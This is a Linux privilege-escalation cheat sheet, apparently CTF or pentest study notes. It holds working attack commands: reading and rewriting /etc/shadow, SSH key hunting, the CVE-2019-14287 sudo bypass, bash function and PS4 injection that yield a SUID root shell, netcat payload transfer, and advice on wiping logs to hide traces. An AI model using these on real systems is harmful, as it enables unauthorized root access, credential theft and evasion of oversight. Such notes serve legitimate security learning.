 # Exploit Linux

<hr class="sl">

## Linux handy commands

<div class="row row-cols-md-2"><div>

Explore the host

* `bash`: start a bash shell
* `cd`: move to another folder
* `ls`: list files in a folder
* `pwd`: path to the current directory
* `cat`: print (usually small) files
* `less`: read (usually big) files
* `chmod`: change permissions
* `chown`: change owner
* `find`: find a file/folder
* `grep/egrep`: find something in a file
* `su`: change user
* `wget`: download something

> You may use python to do things for you, such as starting a web server to browse files <small>(`python3 -m  http.server`)</small>, or run commands <small>(`python -c 'import pty; pty.spawn("/bin/bash")'`)</small>.
</div><div>

Learn more about your environment

* `w`: who is logged in, and what they are doing
* `who`: who is logged in
* `echo $0`: language used by the current shell
* `whoami`: username
* `last`: list of last logged users
* `id`: username, group...
* `uname -a`: info about the machine
* `hostname`: info about the host
* `ps`: see running processes
* `env`: see environment variables
* `umask`: see the default perms on newly created files
* `getent`: shortcut to get entries about something, such as `passwd`
</div></div>

<hr class="sr">

## Linux environment

<div class="row row-cols-md-2 mt-3"><div>

**Look for (sensitive?) information** 🔑

* `/etc/passwd`: usernames, their groups, their home, and their shell
* `/etc/shadow` <small>(root)</small>: username, and their hashed password
* `/etc/group`/`groups`: groups
* `/etc/gshadow` <small>(root)</small>: groups hashed passwords (if any)
* `/proc/version`: information about the machine
* `cat /etc/*release`: information about the operating system
* `/etc/sudoers` <small>(root)</small>: sudoers, and rules applied to them, if any
* `ls -ahl /root/`: see if there are readable files in root's home
* `find / -name *id_dsa* 2> /dev/null`: RSA credentials
  * You can use `ssh -i key` to connect using a key
  * The key must have the permissions `u+rw` at least
  * You can try to crack it

**Logs** 🗺️

* `/var/log/` (folder): log files
* Look for ufw (firewall) logs
* Look for apache logs
* Look for fail2ban logs
* Look for backups <small>(such as emails/conversations/database)</small>
* Look for mails `/var/mail/`
* `~/.bash_history`: there may be something useful in the bash_history
  * Look for calls to sudo
  * Look for calls to services (mysql...)
</div><div>

**Cron tasks** ⭐

Cron are the name given to automated tasks on Linux. See `crontab -l` for the tasks of the current user, and `ls -la /etc/cron*` for every cron tasks. Then, you may look for vulnerable cron tasks, meaning tasks using

* files that you can edit, 
* environment variables using paths/... that you can edit,
* glob-patterns that you may inject, for instance, if a command runs on a directory in which you can create files, you can create files named after the injectable command line flags.

<br>

**Potentially vulnerable services** 😢

* Apache: `apache2 -v` / `apache2ctl -M` / `httpd -v`
* Sudo: `sudo -V`
* PostgresSQL: `psql -V`
* MySQL: `mysql --version`

Once you found a service, look for CVE for the given version, and try to use one to escalate to root.

<br>

**Cleaning up your traces** 🧹

* `/var/log/auth.log`: ssh logs
* `/var/log/syslog`: firewall logs
* `/var/log/service`: "service" logs (ex: apache)
* ...

</div></div>

> **NOTE**: don't forget to redirect any errors with `some_command 2> /dev/null`.

<hr class="sl">

## Linux (automated) enumeration

<div class="row row-cols-md-2"><div>

There are many scripts checking if there are "common" files, testing commands... in order to look for information that would be useful for you to reach a higher level of privilege.

* [LinEnum](https://github.com/rebootuser/LinEnum) (5.4k ⭐): a script shell
* [traitor](https://github.com/liamg/traitor)  (5.4k ⭐): a script in Go
* [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration) (lse, 2.5k ⭐): a script shell
* [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker) (1.1k ⭐): a python script
</div><div>

There are multiple ways to get the script on your target

* Open a text editor, copy-paste it
  * run it `bash script.sh`,
  * or use chmod, then `./script.sh`
* Use `wget`
* Use `FTP`
* Use nc/netcat
  * On the victim: `nc -l -p port > script.sh`
  * On the attacker: `nc IP port < script.sh`
</div></div>

<hr class="sr">

## Linux privilege escalation

<div class="row row-cols-md-2"><div>

Privilege escalation refer to a process of obtaining super-administrator (a.k.a. root) privileges, starting from a non-root user.

* [gtfobins](https://gtfobins.github.io/) (7.4k ⭐): a reference to find ways to exploit a command with misconfigured permissions.
</div><div>

* Find a vulnerable service an exploit it <small>(apache, mysql...)</small>
* Find a service in which you can inject data, in order to exploit it
  * Exploit `sudo`
  * Exploit system files
  * Exploit cron jobs
  * Exploit script with the SUID bit
  * ...
* ...
</div></div>

<hr class="sl">

## Misconfigured permissions

<div class="row row-cols-md-2"><div>

If `/etc/shadow` was "intentionally" misconfigured

```bash
$ cat /etc/shadow
# if you can read it: try to bruteforce the password
# if you can write it: change the root password
# (copy a password / generate one mkpasswd -m sha-512 toto)
```

In OLD version of Linux, passwords could be stored in `/etc/passwd`

```bash
$ cat /etc/shadow
- root:x:...
+ root:hashed_password:...
# openssl passwd toto
```
</div><div>

**SUID/GUID**

Scripts having the SUID bit can be executed with the permissions of their owner. GUID is the same, but using the owner group permissions. If you find one, try to see on GTFOBins if you have a well-known way to exploit it.

```bash
$ find / -perm -u=s -type f 2>/dev/null
$ find / -perm -g=s -type f 2>/dev/null
```

If the script "hand-made", or not something on GTFOBins, then you can use `strace script`, and `strings script`. Both commands can be used if the script is "unreadable", to try to find what the script is doing, and maybe find Paths/Environment variables that you may have the permission to edit.
</div></div>

<hr class="sr">

## Exploit sudo

*A good reference to exploit sudo: [SUDO_KILLER](https://github.com/TH3xACE/SUDO_KILLER)* (1.6k ⭐).

<div class="row row-cols-md-2"><div>

Try to find commands that can be run with sudo

```bash
$ sudo -l
# if asking a password, abort
# otherwise, 
# - look for the command on GTFOBins
# - look for environment variable loaded that may be exploited
$ sudo -n nc # if nc allowed
```
</div><div>

**sudo before 1.8.28 (CVE-2019-14287)**: if a user was allowed to run one specific command using sudo, such as `nc`, then it was possible for any user to bypass the check, and run the command as root.

```bash
$ sudo -u#-1 nc
$ sudo -u#4294967295 nc
```
</div></div>

<hr class="sl">

## Exploit bash

<div class="row row-cols-md-2"><div>

**Bash versions <4.2-048**: it is possible to create functions named after a path, which allow us to execute a command instead. If the path is accessed by a script, then using `-p`, we can create a bash while inheriting the permissions of its creator.

```bash
function /some/path { /bin/bash -p; }
export -f /some/path
```
</div><div>

**Bash <4.4**: if debug is enabled, we can inject code in the environment variable PS4 used by bash. If the script has the SUID bit, then using this, we could create a bash with the SUID bit too.

```bash
$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/; chmod +xs /tmp/bash)' ./script
```
</div></div>